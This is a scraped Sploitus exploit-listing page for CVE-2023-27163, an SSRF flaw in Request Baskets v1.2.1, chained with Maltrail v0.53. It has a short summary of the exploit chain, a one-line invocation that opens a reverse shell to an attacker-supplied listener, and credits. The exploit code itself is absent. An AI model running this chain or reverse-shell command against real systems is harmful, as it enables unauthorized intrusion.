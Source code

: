 ```yaml
---
title: Exploit for Server-Side Request Forgery in Rbaskets Request Baskets exploit
url: https://sploitus.com/exploit?id=B3638130-C893-5B60-ACF1-563DA36B7632&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-06
fetch_date: 2025-10-04T11:58:56.577094
---
```


# Exploit for Server-Side Request Forgery in Rbaskets Request Baskets exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Server-Side Request Forgery in Rbaskets Request\_Baskets CVE-2023-27163

2023-08-05 | CVSS 6.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=B3638130-C893-5B60-ACF1-563DA36B7632
# Automatic Exploit

## Summary

The following exploit abuses [**Requests Baskets v1.2.1 SSRF vulnerability**](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) to forward the internal application running at `127.0.0.1:80` to the external application at `/pwned`. Once the **Mailtrail v0.53** application has been forwarded it will execute a reverse shell command against it and within a few seconds the user should obtain a reverse shell onto the machine.

## Command

```
python3 ./exploit http://10.10.10.10:55555 LISTENER-IP LISTENER-PORT
```

## Exploits:
* CVE-2023-27163
* Mailtrail v0.53

## Credits
* https://github.com/overgrowncarrot1
* https://github.com/spookier/Maltrail-v0.53-Exploit
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)